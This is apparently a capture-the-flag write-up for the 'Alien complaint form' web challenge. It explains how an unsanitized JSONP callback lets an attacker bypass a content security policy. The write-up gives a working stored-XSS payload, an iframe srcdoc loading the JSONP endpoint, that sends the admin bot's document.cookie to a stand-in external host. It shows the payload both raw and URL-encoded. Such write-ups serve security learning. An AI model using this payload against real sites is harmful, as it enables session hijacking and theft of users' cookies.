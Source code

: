 # Alien complaint form

Challenge text:
```
The Aliens found a cool new security feature called CSP and have since implemented it into their HR Complaint Form. There are reports that any issues reported by humans are not taken into account and instead deleted. The Human resistance has left a backdoor in the website that can be used to acquire sensitive information from the Aliens. Can you find it?
```
Along with the [source code](web_alien_complaint_form).

When you go to the website, there's a textbox that allows you to submit a complaint, there's nothing too interesting about this, so I check the included source code.

Upon submitting the complaint, it's safely added to a database (no SQLi), and then a puppeteer bot visits the endpoint `/list`. The website loads all complaints from the database using an API call, and appends it using innerHTML.

Since our complaint is added to the `/list` website by appending to a list's innerHTML we cant simply embed a script tag, as it won't run. A common bypass to get innerHTML XSS is for example by doing `<img src="x" onerror="alert(1)">`, as images are still loaded. However, due to the `default-src 'self';` part of the website's content security policy, we're unable to execute any JavaScript this way, we have to keep looking.

The aforementioned API call to load all complaints is to `/api/json`, if we go there we see this response.
```js
display([{"id":1,"complaint":"Employee #1655 resolved to slurs once a mistake was pointed out.","species":"Alien","created_at":"2021-04-21 21:45:09"},{"id":2,"complaint":"Employee #7843 ate my intergalactic donut.","species":"Alien","created_at":"2021-04-21 21:45:09"},{"id":3,"complaint":"Employee #4933 made coffee for everyone except me.","species":"Alien","created_at":"2021-04-21 21:45:09"}]
```
This response is then added as the content of a script tag, which means it'll execute the `display()` function on the website , which will show all the complaints. This is a normal JSONP implementation. However, I noticed that the endpoint was using it's own (unsanitized) JSONP implementation.
```js
let callback = request.query.callback || 'display';
reply.header('Content-Type', 'application/javascript');
let feedback = await db.getFeedback()
	.then(feedback => {
		if (feedback) {
			return feedback;
		}
		return 'The Galactic Federation archives appear to be empty.';
	})
	.catch(() => {
		return 'The Galactic Federation spaceship controller has crashed.';
	});
reply.send(`${callback}(${JSON.stringify(feedback)})`); // as we see here, callback is not sanitied in any way, and will allow us to execute JS code.
```
Since the input is not sanitized we can set the callback value to whatever we want, which can lead to XSS when embedded. `http://138.68.182.108:30025/api/jsonp?callback=alert(1);//` will respond with
```js
alert(1);//([{"id":1,"complaint":"Employee #1655 resolved to slurs once a mistake was pointed out.","species":"Alien","created_at":"2021-04-21 21:45:09"},{"id":2,"complaint":"Employee #7843 ate my intergalactic donut.","species":"Alien","created_at":"2021-04-21 21:45:09"},{"id":3,"complaint":"Employee #4933 made coffee for everyone except me.","species":"Alien","created_at":"2021-04-21 21:45:09"}])
```

If we somehow manage to embed this URL, it won't trigger the CSP, and we have an XSS. However, as mentioned ealier, we can't do `<script src="http://138.68.182.108:30025/api/jsonp?callback=alert(1);//"></script>`, as script tags won't execute when appended to innerHTML. Iframes are however embedded, and we can set the srcdoc of an iframe to a script tag with the JSONP XSS source.

```html
<iframe srcdoc="<script src='/api/jsonp?callback=window.open(`https://example.com?c=`+document.cookie+`;//`)'></script>"></iframe>
```
and when properly URL encoded;
```html
<iframe srcdoc="<script src='/api/jsonp?callback=window.open%28%60https%3A%2F%2Fexample.com%3Fc%3D%60%2Bdocument.cookie%2B%60%3B%2F%2F%60%29'></script>"></iframe>
```

If we send in this as a complaint, a script with the source code
```js
window.open(`https://example.com?c=`+document.cookie+`;//([{"id":1,"complaint":"Employee #1655 resolved to slurs once a mistake was pointed out.","species":"Alien","created_at":"2021-04-21 21:45:09"},{"id":2,"complaint":"Employee #7843 ate my intergalactic donut.","species":"Alien","created_at":"2021-04-21 21:45:09"},{"id":3,"complaint":"Employee #4933 made coffee for everyone except me.","species":"Alien","created_at":"2021-04-21 21:45:09"}])
```
will be embedded on the admin's site, and since the script's src is from an internal endpoint, it won't trigger the CSP. We will then recieve the admin's cookies in our webhook.